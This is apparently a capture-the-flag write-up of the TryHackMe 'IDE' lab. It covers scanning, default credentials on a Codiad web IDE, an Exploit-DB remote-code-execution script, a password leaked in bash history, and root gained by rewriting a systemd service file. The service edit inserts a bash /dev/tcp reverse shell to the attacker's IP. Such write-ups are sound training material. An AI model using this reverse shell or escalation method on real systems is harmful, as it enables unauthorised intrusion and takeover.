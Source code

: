 ```yaml
---
title: "IDE"
date: 2022-09-20T16:00:31+01:00
draft: false
categories:
  - TryHackMe
---
```


{{< post-img src="ide.png" alt="ide" style="width: 200px;" >}}

## Enmeration


```bash
Discovered open port 21/tcp on 10.10.6.68
Discovered open port 80/tcp on 10.10.6.68
Discovered open port 22/tcp on 10.10.6.68
Discovered open port 62337/tcp on 10.10.6.68

PORT   STATE SERVICE REASON  VERSION
21/tcp open  ftp     syn-ack vsftpd 3.0.3
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.8.226.203
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 e2:be:d3:3c:e8:76:81:ef:47:7e:d0:43:d4:28:14:28 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC94RvPaQ09Xx+jMj32opOMbghuvx4OeBVLc+/4Hascmrtsa+SMtQGSY7b+eyW8Zymxi94rGBIN2ydPxy3XXGtkaCdQluOEw5CqSdb/qyeH+L/1PwIhLrr+jzUoUzmQil+oUOpVMOkcW7a00BMSxMCij0HdhlVDNkWvPdGxKBviBDEKZAH0hJEfexz3Tm65cmBpMe7WCPiJGTvoU9weXUnO3+41Ig8qF7kNNfbHjTgS0+XTnDXk03nZwIIwdvP8dZ8lZHdooM8J9u0Zecu4OvPiC4XBzPYNs+6ntLziKlRMgQls0e3yMOaAuKfGYHJKwu4AcluJ/+g90Hr0UqmYLHEV
|   256 a8:82:e9:61:e4:bb:61:af:9f:3a:19:3b:64:bc:de:87 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBBzKTu7YDGKubQ4ADeCztKu0LL5RtBXnjgjE07e3Go/GbZB2vAP2J9OEQH/PwlssyImSnS3myib+gPdQx54lqZU=
|   256 24:46:75:a7:63:39:b6:3c:e9:f1:fc:a4:13:51:63:20 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJ+oGPm8ZVYNUtX4r3Fpmcj9T9F2SjcRg4ansmeGR3cP
80/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
| http-methods:
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel



PORT      STATE SERVICE REASON  VERSION
62337/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
|_http-favicon: Unknown favicon MD5: B4A327D2242C42CF2EE89C623279665F
|_http-title: Codiad 2.8.4
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
```


```bash
.htaccess               [Status: 403, Size: 278, Words: 20, Lines: 10]
.htpasswd               [Status: 403, Size: 278, Words: 20, Lines: 10]
.hta                    [Status: 403, Size: 278, Words: 20, Lines: 10]
components              [Status: 301, Size: 322, Words: 20, Lines: 10]
data                    [Status: 301, Size: 316, Words: 20, Lines: 10]
favicon.ico             [Status: 200, Size: 1150, Words: 4, Lines: 1]
index.php               [Status: 200, Size: 5239, Words: 1739, Lines: 87]
js                      [Status: 301, Size: 314, Words: 20, Lines: 10]
languages               [Status: 301, Size: 321, Words: 20, Lines: 10]
lib                     [Status: 301, Size: 315, Words: 20, Lines: 10]
plugins                 [Status: 301, Size: 319, Words: 20, Lines: 10]
server-status           [Status: 403, Size: 278, Words: 20, Lines: 10]
themes                  [Status: 301, Size: 318, Words: 20, Lines: 10]
```

The room said enumeration is important so we took that personally.
full nmap scan or you miss the main thing...the real website is on port 62337
But first lets grab whatever is in ftp folder
At first I thought ftp folder was empty...the subfolder was named `...`

cd into it and find a file named `-`

```text
Hey john,
I have reset the password as you have asked. Please use the default password to login.
Also, please take care of the image file ;)
- drac.
```

nmap says the actual website use codiad 2.8.4
As we dont know what that is we google but found its a web ide
And there is an RCE vulnerability with exploitdb script

random passwords trials got us in the web ide (I was about to bruteforce with hydra lol)

`john : password`

As we can login we see the code john was working on but nothing useful in it
let's use the exploit db python script to get inside

`python exploit.py http://10.10.172.231:62337/ john password 10.8.226.203 2311 linux`

And we are in
first we get comfortable

`python3 -c 'import pty;pty.spawn("/bin/bash")'`

```bash
www-data@ide:/home$ cd drac
cd drac
www-data@ide:/home/drac$ ls
ls
user.txt
www-data@ide:/home/drac$ cat user.txt
cat user.txt
cat: user.txt: Permission denied
```

I am not even surprised

```bash
ls -al
total 52
drwxr-xr-x 6 drac drac 4096 Aug 4 07:06 .
drwxr-xr-x 3 root root 4096 Jun 17 14:01 ..
-rw------- 1 drac drac 49 Jun 18 06:02 .Xauthority
-rw-r--r-- 1 drac drac 36 Jul 11 12:11 .bash_history
-rw-r--r-- 1 drac drac 220 Apr 4 2018 .bash_logout
-rw-r--r-- 1 drac drac 3787 Jul 11 11:53 .bashrc
drwx------ 4 drac drac 4096 Jun 18 06:03 .cache
drwxr-x--- 3 drac drac 4096 Jun 18 06:47 .config
drwx------ 4 drac drac 4096 Jun 18 06:48 .gnupg
drwx------ 3 drac drac 4096 Jun 18 05:49 .local
-rw-r--r-- 1 drac drac 807 Apr 4 2018 .profile
-rw-r--r-- 1 drac drac 0 Jun 17 14:03 .sudo_as_admin_successful
-rw------- 1 drac drac 557 Jun 18 05:49 .xsession-errors
-r-------- 1 drac drac 33 Jun 18 06:32 user.txt
```

ok drac only can read the flag but anyone can read his bash history...lol
that thing is supposed to go to void (/dev/null)

```bash
cat .bash_history
mysql -u drac -p 'Th3dRaCULa1sR3aL'

www-data@ide:/home/drac$ su drac
su drac
Password: Th3dRaCULa1sR3aL
```

`drac@ide:~$ cat user.txt`

And we got User Flag

Now privileges

## privilege escalation

```bash
sudo -l

Matching Defaults entries for drac on ide:
env_reset, mail_badpass,
secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User drac may run the following commands on ide:
(ALL : ALL) /usr/sbin/service vsftpd restart
```

The ftp service? hmm? I dont know

```bash
locate vsftpd.service
/etc/systemd/system/multi-user.target.wants/vsftpd.service

cd /etc/systemd/system/multi-user.target.wants

cat vsftpd.service

[Unit]
Description=vsftpd FTP server
After=network.target

[Service]
Type=simple
ExecStart=/usr/sbin/vsftpd /etc/vsftpd.conf
ExecReload=/bin/kill -HUP $MAINPID
ExecStartPre=-/bin/mkdir -p /var/run/vsftpd/empty

[Install]
WantedBy=multi-user.target
```

Alright let's change the `ExecStart` to a reverse shell

```bash
[Unit]
Description=vsftpd FTP server
After=network.target

[Service]
Type=simple
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/10.8.226.203/4444 0>&1'
ExecReload=/bin/kill -HUP $MAINPID
ExecStartPre=-/bin/mkdir -p /var/run/vsftpd/empty

[Install]
WantedBy=multi-user.target
```

We echo all that in `vsftpd.service` and listen with a new netcat on said port

Now we restart the service..reload daemon first

```bash
systemctl daemon-reload
==== AUTHENTICATING FOR org.freedesktop.systemd1.reload-daemon ===
Authentication is required to reload the systemd state.
Authenticating as: drac
Password: Th3dRaCULa1sR3aL

==== AUTHENTICATION COMPLETE ===
```

```bash
drac@ide:/etc/systemd/system/multi-user.target.wants$ sudo /usr/sbin/service vsftpd restart
```

Aaand...NOTHING

I don't know why but I had to do the restart twice

```bash
root@ide:/# id
id
uid=0(root) gid=0(root) groups=0(root)

cat root.txt
```

Great room! Get some more!
